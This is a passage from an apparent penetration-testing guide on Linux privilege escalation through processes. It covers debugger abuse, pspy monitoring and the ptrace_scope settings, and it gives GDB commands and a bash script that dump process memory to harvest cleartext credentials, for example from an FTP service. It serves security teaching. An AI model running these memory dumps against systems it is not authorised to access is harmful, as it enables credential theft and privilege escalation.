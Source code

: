 Always check for possible [**electron/cef/chromium debuggers** running, you could abuse it to escalate privileges](electron-cef-chromium-debugger-abuse.md). **Linpeas** detect those by checking the `--inspect` parameter inside the command line of the process.\
Also **check your privileges over the processes binaries**, maybe you can overwrite someone.

### Process monitoring

You can use tools like [**pspy**](https://github.com/DominicBreuker/pspy) to monitor processes. This can be very useful to identify vulnerable processes being executed frequently or when a set of requirements are met.

### Process memory

Some services of a server save **credentials in clear text inside the memory**.\
Normally you will need **root privileges** to read the memory of processes that belong to other users, therefore this is usually more useful when you are already root and want to discover more credentials.\
However, remember that **as a regular user you can read the memory of the processes you own**.

{% hint style="warning" %}
Note that nowadays most machines **don't allow ptrace by default** which means that you cannot dump other processes that belongs to your unprivileged user.

The file _**/proc/sys/kernel/yama/ptrace\_scope**_ controls the accessibility of ptrace:

* **kernel.yama.ptrace\_scope = 0**: all processes can be debugged, as long as they have same uid. This is the classical way of how ptracing worked.
* **kernel.yama.ptrace\_scope = 1**: only a parent process can be debugged.
* **kernel.yama.ptrace\_scope = 2**: Only admin can use ptrace, as it required CAP\_SYS\_PTRACE capability.
* **kernel.yama.ptrace\_scope = 3**: No processes may be traced with ptrace. Once set, a reboot is needed to enable ptracing again.
{% endhint %}

#### GDB

If you have access to the memory of a FTP service (for example) you could get the Heap and search inside of it the credentials.

```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

#### GDB Script

{% code title="dump-memory.sh" %}
```bash
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
    | sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
    | while read start stop; do \
    gdb --batch --pid $1 -ex \
    "dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```
{% endcode %}


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714